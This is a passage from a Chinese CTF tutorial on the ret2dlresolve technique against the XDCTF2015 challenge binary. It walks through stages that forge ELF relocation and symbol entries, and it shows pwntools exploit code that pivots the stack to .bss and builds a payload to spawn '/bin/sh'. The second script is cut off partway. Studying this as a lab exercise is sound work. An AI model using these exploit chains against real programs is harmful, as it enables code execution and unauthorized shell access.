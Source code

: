 非ROP模块版：

```python
...
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
r_info = 0x607 # write: Elf32_Rel->r_info
fake_reloc = p32(write_got) + p32(r_info)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

## 5.stage4

在stage3 中，我们控制了重定位表项，但是重定位表项的内容与 write 原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据 write 的重定位表项的 r_info=0x607 可以知道，write 对应的符号在符号表的下标为 0x607>>8=0x6。因此，我们知道 write 对应的符号地址为 0x8048238。

![image.png](https://i.loli.net/2020/11/17/QcfI6TG9aDgLEH5.png)

这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为 16 个字节。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
```